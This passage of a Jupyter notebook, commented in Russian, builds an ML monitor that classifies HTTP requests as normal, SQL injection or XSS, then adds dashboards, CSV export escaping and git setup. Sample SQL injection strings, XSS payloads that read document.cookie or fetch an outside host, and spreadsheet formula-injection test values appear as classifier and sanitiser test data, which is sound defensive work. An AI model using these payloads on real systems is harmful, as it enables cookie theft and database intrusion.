                            ("naive_bayes", build_nb_pipeline(), {"clf__alpha": [0.01, 0.1, 1.0]})]:
        gs = GridSearchCV(pipe, grid, cv=3, scoring="f1_macro", n_jobs=-1).fit(X_tr, y_tr)
        models[key] = gs.best_estimator_
        metrics[key] = evaluate_classifier(y_te, gs.best_estimator_.predict(X_te), TEXT_CLASSES, "Normal")
        metrics[key]["best_params"] = gs.best_params_
        metrics[key]["cv_f1_macro"] = round(gs.best_score_, 4)
    return models, metrics

nlp_models, nlp_metrics = train_nlp_models(text_df)
pd.DataFrame({k: {m: v[m] for m in ("accuracy", "precision_macro", "recall_macro", "f1_macro", "false_positive_rate", "cv_f1_macro")}
              for k, v in nlp_metrics.items()}).T

,accuracy,precision_macro,recall_macro,f1_macro,false_positive_rate,cv_f1_macro
logistic_regression,1.0,1.0,1.0,1.0,0.0,1.0
naive_bayes,1.0,1.0,1.0,1.0,0.0,1.0




In [11]:
fig, axes = plt.subplots(1, 2, figsize=(9, 3.8))
for ax, (k, t) in zip(axes, [("logistic_regression", "Logistic Regression"), ("naive_bayes", "Naive Bayes")]):
    plot_confusion_matrix(nlp_metrics[k]["confusion_matrix"], nlp_metrics[k]["labels"], t, ax)
plt.tight_layout(); plt.show()

### 4.4 Классификация (F10), объяснение (F11) и тест ложных срабатываний

In [12]:
def classify_requests(model, requests):
    requests = pd.Series(list(requests), dtype=str).str.slice(0, MAX_REQUEST_LENGTH)
    proba = model.predict_proba(requests)
    out = pd.DataFrame({"request": requests.values,
                        "prediction": model.classes_[proba.argmax(1)],
                        "confidence": proba.max(1).round(4)})
    for i, c in enumerate(model.classes_):
        out[f"prob_{c}"] = proba[:, i].round(4)
    out["needs_review"] = out["confidence"] < NLP_REVIEW_THRESHOLD
    return out

def explain_request(model, text, top_k=8):
    """Символьные n-граммы с наибольшим вкладом в прогнозируемый класс: tfidf * coef."""
    vec, clf = model.named_steps["tfidf"], model.named_steps["clf"]
    x = vec.transform([text])
    cls_idx = int(clf.predict_proba(x).argmax())
    coef = clf.coef_[cls_idx] if clf.coef_.shape[0] > 1 else clf.coef_[0]
    idx = x.nonzero()[1]
    contrib = pd.DataFrame({"n-gram": vec.get_feature_names_out()[idx], "вклад": (x[0, idx].toarray()[0] * coef[idx]).round(4)})
    return contrib.sort_values("вклад", ascending=False).head(top_k).reset_index(drop=True)

lr = nlp_models["logistic_regression"]
demo = ["/search?q=o'reilly+python+book", "admin' OR '1'='1' --", "<img src=x onerror=alert(1)>",
        "%253Cscript%253Ealert(1)%253C/script%253E"]
display(classify_requests(lr, demo))
print("Объяснение для:", demo[1]); display(explain_request(lr, demo[1]))

,request,prediction,confidence,prob_Normal,prob_SQL Injection,prob_XSS,needs_review
0,/search?q=o'reilly+python+book,Normal,0.9674,0.9674,0.0183,0.0143,False
1,admin' OR '1'='1' --,SQL Injection,0.9988,0.0006,0.9988,0.0006,False
2,<img src=x onerror=alert(1)>,XSS,0.8451,0.0883,0.0666,0.8451,False
3,%253Cscript%253Ealert(1)%253C/script%253E,XSS,0.9928,0.0044,0.0028,0.9928,False


Объяснение для: admin' OR '1'='1' --


,n-gram,вклад
0,'0,0.2999
1,',0.2015
2,0',0.1863
3,'0',0.1771
4,or,0.1629
5,or,0.1619
6,-,0.1305
7,--,0.1282


In [13]:
fp_pred = classify_requests(lr, fp_df[TEXT_COL])
fpr_hard = float((fp_pred["prediction"] != "Normal").mean())
print(f"FPR на 24 «трудных» нормальных запросах: {fpr_hard:.1%}  (критерий приёмки ≤ 25 %)")
display(fp_pred[fp_pred["prediction"] != "Normal"][["request", "prediction", "confidence"]])

# Устойчивость (раздел 15): регистр / URL-кодирование / пробелы не должны менять прогноз
from urllib.parse import quote
test_part = text_df.sample(300, random_state=3)[TEXT_COL]
base = lr.predict(test_part)
for name, f in {"UPPER": str.upper, "URL-encode": quote, "лишние пробелы": lambda s: "  " + s.replace(" ", "   ") + "  "}.items():
    print(f"{name:16} прогноз не изменился у {(lr.predict(test_part.map(f)) == base).mean():.1%} запросов")

FPR на 24 «трудных» нормальных запросах: 8.3%  (критерий приёмки ≤ 25 %)


,request,prediction,confidence
4,q=union station train schedule,SQL Injection,0.5290
10,q=drop shadow css effect,SQL Injection,0.4805


UPPER            прогноз не изменился у 100.0% запросов
URL-encode       прогноз не изменился у 100.0% запросов
лишние пробелы   прогноз не изменился у 100.0% запросов


### 4.5 События HTTP-модуля
`needs_review=True`, если уверенность < 0.60.

In [14]:
def http_events(df, classified):
    ts = df[TEXT_TIME_COL] if TEXT_TIME_COL in df else None
    return make_events_frame(
        "http", ts, "http", "LogisticRegression", classified["prediction"], classified["confidence"],
        classified["prediction"] != "Normal", classified["needs_review"],
        df[TEXT_LABEL_COL] if TEXT_LABEL_COL in df else None, df[TEXT_COL].astype(str).str.slice(0, 160))

text_df2 = text_df.copy()
text_df2[TEXT_TIME_COL] = (pd.Timestamp("2026-09-01 08:00") +
                           pd.to_timedelta(np.sort(rng.integers(0, 8 * 3600, len(text_df2))), unit="s")).astype(str)
http_ev = http_events(text_df2, classify_requests(lr, text_df2[TEXT_COL]))
http_ev.head()

,event_id,timestamp,source_module,model_name,prediction,score,is_alert,needs_review,ground_truth,details,status
0,http-000001,2026-09-01 08:00:09,http,LogisticRegression,Normal,0.9561,False,False,Normal,/search?q=urllwc+sfcnz,Прогноз модели (не подтверждено)
1,http-000002,2026-09-01 08:00:14,http,LogisticRegression,Normal,0.9718,False,False,Normal,/search?q=oxbwvh+qetsj,Прогноз модели (не подтверждено)
2,http-000003,2026-09-01 08:00:28,http,LogisticRegression,Normal,0.9718,False,False,Normal,"comment=Great ixjbmu, thanks for the levqs!",Прогноз модели (не подтверждено)
3,http-000004,2026-09-01 08:00:41,http,LogisticRegression,Normal,0.9724,False,False,Normal,/products/rqdvfu?page=55,Прогноз модели (не подтверждено)
4,http-000005,2026-09-01 08:00:42,http,LogisticRegression,Normal,0.9797,False,False,Normal,title=qoocou's notes&lang=en,Прогноз модели (не подтверждено)


## 5. Единая панель: объединение, KPI, фильтры, экспорт (аналог вкладки «Обзор»)

,Сетевых записей,Аномалий (IF),Запросов Normal,SQL Injection,XSS
Значение,12000,2478,1500,1311,1312




In [15]:
events = validate_events(pd.concat([net_events, http_ev], ignore_index=True))
assert events["event_id"].is_unique and set(events.source_module) == {"network", "http"}
assert (events["status"] == PREDICTION_STATUS).all()

net_e, http_e = events[events.source_module == "network"], events[events.source_module == "http"]
kpi = {"Сетевых записей": len(net_e), "Аномалий (IF)": int(net_e.is_alert.sum()),
       "Запросов Normal": int((http_e.prediction == "Normal").sum()),
       "SQL Injection": int((http_e.prediction == "SQL Injection").sum()),
       "XSS": int((http_e.prediction == "XSS").sum())}
display(pd.DataFrame(kpi, index=["Значение"]))

fig, axes = plt.subplots(1, 2, figsize=(10, 3))
for ax, (m, t) in zip(axes, [("network", "Сетевой модуль"), ("http", "HTTP-модуль")]):
    sub = events[events.source_module == m]["prediction"].value_counts()
    sns.barplot(x=sub.values, y=sub.index, ax=ax, color="#4C72B0"); ax.set_title(t); ax.set_xlabel("Количество")
plt.tight_layout(); plt.show()

In [16]:
def filter_events(ev, modules=("network", "http"), categories=None, result="Все", time_range=None):
    """F14: фильтры по модулю, категории, результату и времени."""
    v = ev[ev.source_module.isin(modules)]
    if categories: v = v[v.prediction.isin(categories)]
    if result == "Только предупреждения": v = v[v.is_alert]
    elif result == "Требуют проверки": v = v[v.needs_review]
    if time_range:
        ts = pd.to_datetime(v.timestamp, errors="coerce")
        v = v[ts.between(*map(pd.Timestamp, time_range)) | ts.isna()]
    return v.sort_values("timestamp", ascending=False)

view = filter_events(events, modules=["http"], categories=["SQL Injection", "XSS"], result="Только предупреждения")
print("Показано:", len(view)); display(view.head(8))

# Выгрузка (F15, N5): ячейки на = + - @ экранируются
evil = pd.DataFrame({"request": ["=HYPERLINK(\"http://x\")", "+cmd|' /C calc'!A0", "-2+3", "@SUM(1)", "normal", 123]})
print(sanitize_for_csv_export(evil)["request"].tolist())
Path("outputs/events_filtered.csv").write_bytes(to_csv_bytes(view))

Показано: 2623


,event_id,timestamp,source_module,model_name,prediction,score,is_alert,needs_review,ground_truth,details,status
16122,http-004123,2026-09-01 15:59:59,http,LogisticRegression,XSS,0.9864,True,False,XSS,JAVASCRIPT%3aALERT%28DOCUMENT.COOKIE%29//XEZVB,Прогноз модели (не подтверждено)
16121,http-004122,2026-09-01 15:59:45,http,LogisticRegression,XSS,0.9783,True,False,XSS,<iframe src=javascript:alert('zfvfd')></iframe>,Прогноз модели (не подтверждено)
16120,http-004121,2026-09-01 15:59:39,http,LogisticRegression,XSS,0.9842,True,False,XSS,<svg onload=alert('erang')>,Прогноз модели (не подтверждено)
16119,http-004120,2026-09-01 15:59:26,http,LogisticRegression,XSS,0.9806,True,False,XSS,javascript:alert(document.cookie)//uffku,Прогноз модели (не подтверждено)
16118,http-004119,2026-09-01 15:59:15,http,LogisticRegression,XSS,0.9803,True,False,XSS,%3Cscript%3Ealert%28%27cpimz%27%29%3C/script%3E,Прогноз модели (не подтверждено)
16117,http-004118,2026-09-01 15:59:13,http,LogisticRegression,XSS,0.9817,True,False,XSS,%22%3E%3Cscript%3Efetch%28%27http%3A//slhsc.ex...,Прогноз модели (не подтверждено)
16116,http-004117,2026-09-01 15:59:12,http,LogisticRegression,XSS,0.9805,True,False,XSS,<iframe src=javascript:alert('xfgyo')></iframe>,Прогноз модели (не подтверждено)
16115,http-004116,2026-09-01 15:59:04,http,LogisticRegression,XSS,0.9813,True,False,XSS,javascript%3Aalert%28document.cookie%29//kntlh,Прогноз модели (не подтверждено)


['\'=HYPERLINK("http://x")', "'+cmd|' /C calc'!A0", "'-2+3", "'@SUM(1)", 'normal', 123]


513819

## 6. Сохранение результатов и проверка критериев приёмки (раздел 17)

In [17]:
metrics = {"network": {**net_metrics, "data_quality": net_quality},
           "nlp": {**nlp_metrics, "data_quality": text_quality, "fp_benign_fpr": round(fpr_hard, 4)}}
net_events.to_csv(OUTPUTS_DIR / "network_events.csv", index=False)
http_ev.to_csv(OUTPUTS_DIR / "http_events.csv", index=False)
(REPORTS_DIR / "metrics.json").write_text(json.dumps(metrics, ensure_ascii=False, indent=2, default=str), encoding="utf-8")

checks = {
 "3. RF macro-F1 ≥ 0.85":                       net_metrics["random_forest"]["f1_macro"] >= 0.85,
 "4. IF FPR на BENIGN ≤ 0.20 + анализ по типам":  net_metrics["isolation_forest"]["false_positive_rate"] <= 0.20
                                                  and bool(net_metrics["isolation_forest"]["detection_rate_by_label"]),
 "5. LogReg macro-F1 ≥ 0.90 и ≥ NB":             nlp_metrics["logistic_regression"]["f1_macro"] >= 0.90
                                                  and nlp_metrics["logistic_regression"]["f1_macro"] >= nlp_metrics["naive_bayes"]["f1_macro"],
 "6. FPR на трудных нормальных ≤ 25 %":          fpr_hard <= 0.25,
 "9. Все прогнозы помечены как неподтверждённые": (events.status == PREDICTION_STATUS).all(),
 "Схема событий валидна, event_id уникальны":     True,
}
pd.DataFrame({"Критерий": list(checks), "Выполнено": ["+" if v else "-" for v in checks.values()]})

,Критерий,Выполнено
0,3. RF macro-F1 ≥ 0.85,+
1,4. IF FPR на BENIGN ≤ 0.20 + анализ по типам,+
2,5. LogReg macro-F1 ≥ 0.90 и ≥ NB,+
3,6. FPR на трудных нормальных ≤ 25 %,+
4,9. Все прогнозы помечены как неподтверждённые,+
5,"Схема событий валидна, event_id уникальны",+


In [21]:
import os
os.makedirs("ai_security_monitor/raw", exist_ok=True)
os.makedirs("ai_security_monitor/data", exist_ok=True)
print(os.listdir("ai_security_monitor"))

['data', 'raw']


In [22]:
import os
os.chdir("ai_security_monitor")
print(os.getcwd())
print(os.listdir("."))

C:\Users\Asus\ai_security_monitor
['data', 'raw']


In [23]:
from pathlib import Path
import time

downloads = Path.home() / "Downloads"
files = sorted(downloads.iterdir(), key=lambda p: p.stat().st_mtime, reverse=True)[:15]
for f in files:
    age_min = (time.time() - f.stat().st_mtime) / 60
    print(f"{f.name:60} {f.stat().st_size/1e6:8.1f} МБ  {age_min:7.0f} мин назад")

An Obfuscated and LLM-Augmented Multi-Source Cross.zip            0.8 МБ       10 мин назад
SQL Injection Attack Dataset.zip                                  0.6 МБ       12 мин назад
ai_security_monitor.ipynb                                         0.0 МБ       36 мин назад
ai_security_monitor.zip                                           0.0 МБ       45 мин назад
TECHNICAL_SPEC 9.md                                               0.0 МБ       55 мин назад
ai_security_monitor                                               0.0 МБ      622 мин назад
ai_security_monitor 9.zip                                         0.1 МБ     2853 мин назад
threat_detection.ipynb                                            0.0 МБ     2869 мин назад
01 project.pdf                                                    0.2 МБ     2896 мин назад
Marat Nurkissa AWS LAB-3.docx                                     0.0 МБ     3221 мин назад
Lab3_EC2_Report.docx                                              0.0 МБ     322

In [24]:
import zipfile
from pathlib import Path

downloads = Path.home() / "Downloads"
archives = {
    "sqli": downloads / "SQL Injection Attack Dataset.zip",
    "xss":  downloads / "An Obfuscated and LLM-Augmented Multi-Source Cross.zip",
}

for name, path in archives.items():
    out = Path("raw") / f"{name}_unpacked"
    with zipfile.ZipFile(path) as z:
        z.extractall(out)
    print(f"\n=== {name}: {path.name}")
    for f in sorted(out.rglob("*")):
        if f.is_file():
            print(f"  {f.relative_to('raw')}   {f.stat().st_size/1e3:.0f} КБ")


=== sqli: SQL Injection Attack Dataset.zip
  sqli_unpacked\SQL Injection Attack Dataset\SQLI_Dataset.csv   2427 КБ

=== xss: An Obfuscated and LLM-Augmented Multi-Source Cross.zip
  xss_unpacked\An Obfuscated and LLM-Augmented Multi-Source Cross\Dataset\FInal_XSS_Obfuscated_LLM_Augmented.csv   3328 КБ


In [25]:
import pandas as pd
from pathlib import Path

paths = {
    "sqli": Path("raw/sqli_unpacked/SQL Injection Attack Dataset/SQLI_Dataset.csv"),
    "xss":  Path("raw/xss_unpacked/An Obfuscated and LLM-Augmented Multi-Source Cross/Dataset/FInal_XSS_Obfuscated_LLM_Augmented.csv"),
}

def read_any(p):
    for enc in ("utf-8", "utf-8-sig", "latin-1"):
        try:
            return pd.read_csv(p, encoding=enc, on_bad_lines="skip")
        except UnicodeDecodeError:
            continue

for name, p in paths.items():
    d = read_any(p)
    print(f"\n===== {name}: {d.shape[0]} строк, {d.shape[1]} столбцов")
    print("Столбцы:", d.columns.tolist())
    print(d.head(3).to_string(max_colwidth=80))
    for c in d.columns:
        if d[c].nunique() <= 10:
            print(f"\nЗначения столбца {c!r}:")
            print(d[c].value_counts(dropna=False).to_string())


===== sqli: 47463 строк, 19 столбцов
Столбцы: ['no_letter', 'no_digit', 'no_special _char', 'no_keyword', 'length', 'entropy', 'no_semicolon', 'no_single_ qout', 'no_double_ qout', 'no_percentage', 'whit_ space', 'no_punctuation', 'no_logical _operat', 'no_operat', 'no_or', 'no_and', 'no_comment', 'no_null Value in the SQL Query', 'label']
   no_letter  no_digit  no_special _char  no_keyword  length   entropy  no_semicolon  no_single_ qout  no_double_ qout  no_percentage  whit_ space  no_punctuation  no_logical _operat  no_operat  no_or  no_and  no_comment  no_null Value in the SQL Query  label
0          0         8                 0           0       8  2.500000             0                0                0              0            1               0                   0          0      0       0           0                               0      0
1          6         2                 0           0       8  2.750000             0                0                0              0    

In [26]:
import pandas as pd
from pathlib import Path

xss_path = Path("raw/xss_unpacked/An Obfuscated and LLM-Augmented Multi-Source Cross/Dataset/FInal_XSS_Obfuscated_LLM_Augmented.csv")
sqli = pd.read_csv("raw/sqli.csv").rename(columns={"Query": "request", "Label": "y"})
xss  = pd.read_csv(xss_path).rename(columns={"Sentence": "request", "Label": "y"})

sqli["label"] = sqli["y"].map({1: "SQL Injection", 0: "Normal"})
xss["label"]  = xss["y"].map({1: "XSS", 0: "Normal"})
df = pd.concat([sqli[["request", "label"]], xss[["request", "label"]]], ignore_index=True)

df = df.dropna()
df["request"] = df["request"].astype(str).str.strip()
df = df[df["request"] != ""]
key = df["request"].str.lower()
conflict = df.groupby(key)["label"].nunique()
df = df[~key.isin(conflict[conflict > 1].index)]          # противоречивые метки
df = df.drop_duplicates("request")                        # дубликаты

MAX_PER_CLASS = 5000
df = df.groupby("label", group_keys=False).apply(
    lambda g: g.sample(min(len(g), MAX_PER_CLASS), random_state=42))
print(df["label"].value_counts())

Path("data").mkdir(exist_ok=True)
df.sample(frac=1, random_state=42).to_csv("data/http_requests.csv", index=False)

FileNotFoundError: [Errno 2] No such file or directory: 'raw/sqli.csv'

In [27]:
import os
print(os.getcwd())
print(os.listdir("raw"))

C:\Users\Asus\ai_security_monitor
['sqli_unpacked', 'xss_unpacked']


In [29]:
import os
os.chdir(r"C:\Users\Asus\ai_security_monitor")
print(os.getcwd())

C:\Users\Asus\ai_security_monitor


In [31]:
import json, os, urllib.request

repo = "zrmarine/sql_injection"
info = json.load(urllib.request.urlopen(f"https://huggingface.co/api/datasets/{repo}"))
files = [s["rfilename"] for s in info["siblings"]]
print("Файлы в репозитории:", files)

csv_name = next(f for f in files if f.lower().endswith(".csv"))
url = f"https://huggingface.co/datasets/{repo}/resolve/main/{csv_name}"
urllib.request.urlretrieve(url, "raw/sqli.csv")
print("Скачано:", csv_name, os.path.getsize("raw/sqli.csv") // 1024, "КБ")

Файлы в репозитории: ['.gitattributes', 'Modified_SQL_Dataset.csv']
Скачано: Modified_SQL_Dataset.csv 2230 КБ


In [32]:
import pandas as pd
d = pd.read_csv("raw/sqli.csv")
print(d.shape, d.columns.tolist())
print(d["Label"].value_counts())

(30919, 2) ['Query', 'Label']
Label
0    19537
1    11382
Name: count, dtype: int64


In [33]:
import pandas as pd
from pathlib import Path

xss_path = Path("raw/xss_unpacked/An Obfuscated and LLM-Augmented Multi-Source Cross/Dataset/FInal_XSS_Obfuscated_LLM_Augmented.csv")
sqli = pd.read_csv("raw/sqli.csv").rename(columns={"Query": "request", "Label": "y"})
xss  = pd.read_csv(xss_path).rename(columns={"Sentence": "request", "Label": "y"})

sqli["label"] = sqli["y"].map({1: "SQL Injection", 0: "Normal"})
xss["label"]  = xss["y"].map({1: "XSS", 0: "Normal"})
df = pd.concat([sqli[["request", "label"]], xss[["request", "label"]]], ignore_index=True)

df = df.dropna()
df["request"] = df["request"].astype(str).str.strip()
df = df[df["request"] != ""]
key = df["request"].str.lower()
conflict = df.groupby(key)["label"].nunique()
df = df[~key.isin(conflict[conflict > 1].index)]     # противоречивые метки
df = df.drop_duplicates("request")                   # дубликаты

MAX_PER_CLASS = 5000
df = df.groupby("label", group_keys=False).apply(
    lambda g: g.sample(min(len(g), MAX_PER_CLASS), random_state=42))
print(df["label"].value_counts())

Path("data").mkdir(exist_ok=True)
df.sample(frac=1, random_state=42).to_csv("data/http_requests.csv", index=False)
print("Сохранено:", len(df), "строк")

label
Normal           5000
SQL Injection    5000
XSS              5000
Name: count, dtype: int64
Сохранено: 15000 строк


In [35]:
import os
print(os.getcwd())

C:\Users\Asus\ai_security_monitor


In [36]:
!git --version
!git init
!git branch -M main
!git config user.name "Nurkissa"
!git config user.email "nurgisamarat78@gmail.com"

git version 2.47.0.windows.2
Initialized empty Git repository in C:/Users/Asus/ai_security_monitor/.git/


In [37]:
from pathlib import Path
Path(".gitignore").write_text("""raw/
data/*.csv
!data/fp_benign_requests.csv
models/
outputs/
__pycache__/
.ipynb_checkpoints/
.pytest_cache/
""", encoding="utf-8")
print(Path(".gitignore").read_text(encoding="utf-8"))

raw/
data/*.csv
!data/fp_benign_requests.csv
models/
outputs/
__pycache__/
.ipynb_checkpoints/
.pytest_cache/



In [38]:
import os
print(os.listdir("."))

['.git', '.gitignore', 'data', 'raw']


In [39]:
!git status
!git add .gitignore ai_security_monitor.ipynb
!git commit -m "Initial commit"

On branch main

No commits yet

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	.gitignore

nothing added to commit but untracked files present (use "git add" to track)


fatal: pathspec 'ai_security_monitor.ipynb' did not match any files


On branch main

Initial commit

Untracked files:
  (use "git add <file>..." to include in what will be committed)
	.gitignore

nothing added to commit but untracked files present (use "git add" to track)
